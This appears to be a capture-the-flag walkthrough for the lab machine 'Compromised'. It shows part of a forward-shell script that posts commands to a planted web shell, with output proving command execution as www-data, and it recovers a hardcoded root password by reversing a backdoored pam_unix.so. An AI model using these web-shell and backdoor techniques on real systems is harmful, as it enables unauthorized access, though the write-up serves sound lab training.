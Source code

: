 # Alternative way to exploit Compromised

## Bypassing Firewall

Instead of enumerating the system, the **Iptables firewall rules** can be bypassed by using a [script from IppSec](https://github.com/IppSec/forward-shell) with some modifications:
```
20: self.url = r"http://10.10.10.207/shop/vqmod/xml/shell.php"
(...)
63: data = {'cmd': payload}
64: try:
65:     r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)
(...)
```

Executing the Python script and command execution works as _www-data_:
```
python3 forward-shell.py

[*] Session ID: 95210
[*] Setting up fifo shell on target
[*] Setting up read thread

Please Subscribe> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation to root

It is possible to escalate privileges from the user _mysql_ to root.

The directory _/lib_ is often used for installing **Rootkits** or other backdoors, the attacker might have changed something there.  
Searching for files in _/lib_, that were modified by users:
```
find /lib -type f -printf "%T+ %p\n" | grep -v 0000000000
```

For persistence the file _/lib/x86_64-linux-gnu/security/pam_unix.so_ is suspicious to be changed by users.
This is a library for the **Pluggable Authentication Modules (PAM)** that allows different authentication methods.

Downloading the file to analyze it:
```
scp -i compromised.key mysql@10.10.10.207:/lib/x86_64-linux-gnu/security/pam_unix.so .
```

As this is a shared library, it can be analyzed with any decompiler like **Ghidra**.
It has many functions, but when researching **PAM backdoors**, there is a [GitHub repository](https://github.com/zephrax/linux-pam-backdoor) that describes how it might work.

According to [backdoor.patch](https://github.com/zephrax/linux-pam-backdoor/blob/master/backdoor.patch), it uses something on line 170 of _pam_unix_auth.c_.
These lines belong to the function _pam_sm_authenticate_, which can be found in the decompiler:

![Backdoor in function](compromised_re-1.png)

```
0x4533557e656b6c7a
0x2d326d3238766e
```

Decoding it with [CyberChef](https://gchq.github.io/CyberChef):
```
From Hex
  Delimeter: Auto
Swap endianness
  Data format: Raw
  Word length: 8
  Pad incomplete words: False
```
```
zlke~U3Env82m2-
```

The password works with `su -` when switching users to root!
